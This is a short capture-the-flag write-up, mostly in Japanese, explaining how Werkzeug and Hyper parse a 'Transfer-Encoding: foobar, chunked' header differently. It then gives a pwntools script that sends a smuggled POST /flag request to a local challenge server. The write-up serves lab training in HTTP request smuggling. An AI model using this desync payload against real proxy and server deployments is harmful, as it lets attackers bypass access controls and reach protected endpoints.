 # proxy confusion revenge

## Description
I hope my flask server protect my flag this time!

## Writeup

Werkzeugは`Transfer-Encoding`ヘッダーが`"chunked"`と完全一致する場合のみ、`Transfer-Encoding: chunked`として扱い、それ以外は`Content-Length`を利用する(デフォルトの値は0)。
https://github.com/pallets/werkzeug/blob/5add63c955131fd73531d7369f16b2f1b4e342d4/src/werkzeug/sansio/utils.py#L140

その一方、Hyperは`Transfer-Encoding`ヘッダーがコンマ区切りで複数の値である場合も有効である(ただし、最後の値が`"chunked"`でなければならない)。これがRFCで正しい挙動である。
https://github.com/hyperium/hyper/blob/c68d42444ea6b930cb75907336150d2baf58a7e8/src/headers.rs#L130

これを利用して、bodyがDenoのみで有効であるようにリクエストを送ることができる。
```python
from pwn import *

io = remote("localhost", 4000)
io.send(b"""
POST /flag HTTP/1.1
Transfer-Encoding: foobar, chunked

15
please give me flag

0
        """.strip().replace(b"\n", b"\r\n") + b"\r\n\r\n")

r = io.recvall(timeout=1)
print(r.decode())
```